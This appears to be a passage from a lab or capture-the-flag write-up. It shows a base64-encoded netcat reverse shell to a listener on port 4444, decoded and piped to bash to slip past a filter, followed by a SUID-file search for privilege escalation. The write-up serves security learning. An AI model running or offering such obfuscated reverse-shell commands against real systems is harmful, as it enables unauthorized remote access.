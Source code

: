 </p>


### Connect into server

In this situation, I decided to cheat the mechanism. I first encoded the above command using `base64`. The resulting string was `bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjEzNiA0NDQ0Cg==`. In the second step, I constructed a command that decodes the string and executes it. This command is `echo “bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjEzNiA0NDQ0Cg==” | base64 -d | bash`.

After executing this command, the connection on port 4444 was successfully intercepted:

<p align="center">
  <img src="images/get_conn.png">
</p>


I decided to look around the system I had access to and look for a clue that would help me find the password. In addition to manually checking directories, I also used the `find / -perm -4000 -type f 2>/dev/null` command. It searches for all files on the system that have the SUID bit set, and ignores error messages. With that, I came across the `/usr/bin/reset_root` file.

<p align="center">
  <img src="images/reset_root.png">
</p>
